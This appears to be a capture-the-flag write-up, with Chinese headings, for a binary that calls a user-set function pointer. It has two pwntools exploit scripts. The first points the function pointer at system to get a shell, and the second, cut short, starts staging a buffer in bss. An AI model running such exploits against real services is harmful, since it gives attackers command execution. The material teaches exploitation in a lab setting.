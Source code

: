 ```c
        if (idx==6) {
            func=(long long (*)()) value;
            (long long)(*func)(args[0],args[1],args[2],args[3],args[4],args[5]);
        }
        if (idx>=0&&idx<=5){
            args[idx]=value;
        }
    }
    return 0;
}
```

--

## 情境 1

- 用題目給的 Buffer 位置

```python
from pwn import *

#  io=remote('sv.duckll.tw',8888)
io=remote('localhost',4000)

elf=ELF('./a.out')

io.recvuntil("cmd in ")
cmd=int(io.recvline()[:-1],16)
io.recvuntil("flag in ")
flag=int(io.recvline()[:-1],16)

def send(key,value):
    io.sendafter(":",key)
    io.sendlineafter(":",str(value))

#system('sh')
send("0sh\x00",cmd+1)
send("6",elf.plt['system'])

io.interactive()
```

--

## 情境 2

- 如果題目今天都沒給位置
- 用 ELF 通用的 Buffer 位置(bss+0x100)

```python
from pwn import *

#  io=remote('sv.duckll.tw',8888)
io=remote('localhost',4000)

elf=ELF('./a.out')
buf=elf.bss()+0x100

def send(key,value):
    io.sendafter(":",str(key))
    io.sendlineafter(":",str(value))

#read(0,buf,3)
send(0,0)
send(1,buf)
```